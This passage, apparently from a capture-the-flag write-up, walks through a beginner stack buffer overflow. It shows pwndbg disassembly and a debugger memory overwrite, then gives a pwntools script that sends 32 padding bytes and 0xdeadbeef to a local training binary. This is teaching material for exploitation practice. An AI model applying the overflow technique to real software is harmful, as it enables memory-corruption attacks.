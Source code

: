 Once we fully control the variable we need to reverse the binary in order to find which value we need to set into.

After setting a breakpoint in the direction where the variable is compared we can see the desired value.

```
────────────────────────────────────────────────[ DISASM / i386 / set emulate on ]─────────────────────────────────────────────────
 ► 0x80491e0 <do_input+78>     cmp    dword ptr [ebp - 0xc], 0xdeadbeef
   0x80491e7 <do_input+85>     jne    do_input+148                     <do_input+148>
    ↓
   0x8049226 <do_input+148>    sub    esp, 8
   0x8049229 <do_input+151>    push   dword ptr [ebp - 0xc]
   0x804922c <do_input+154>    lea    eax, [ebx - 0x1fe7]
   0x8049232 <do_input+160>    push   eax
   0x8049233 <do_input+161>    call   printf@plt                     <printf@plt>
 
   0x8049238 <do_input+166>    add    esp, 0x10
   0x804923b <do_input+169>    sub    esp, 0xc
   0x804923e <do_input+172>    lea    eax, [ebx - 0x1fe1]
   0x8049244 <do_input+178>    push   eax

```

The desired value is `0xdeadbeef`. We can confirm by overwriting the variable on the debugger.

First we are going to check which is the current value of the memory address `EBP - 0xc`.

```
pwndbg> x $ebp -0xc
0xffffcc8c:     0x12345678
```

Now if we modify the `0xffffcc8c` memory address to the desired one `0xdeadbeef` and continue the program we will see that we complete the challange.

```
pwndbg> set *0xffffcc8c = 0xdeadbeef
pwndbg> x $ebp -0xc
0xffffcc8c:     0xdeadbeef
pwndbg> c
Continuing.
good job!!
deadbeef
[Inferior 1 (process 20292) exited normally]
```

Finally we just need to complete our script, we need to check with `file` command if the binary is little or bigger endian. In that case we are working with a `32-bit LSB` binary so we need to reverse the bytes.

```python
from pwn import *
io = process('./overwrite')
payload = 32 * b'A' + b'\xef\xbe\xad\xde'
io.sendlineafter(b'?', payload)
print(io.recvall().decode())
```
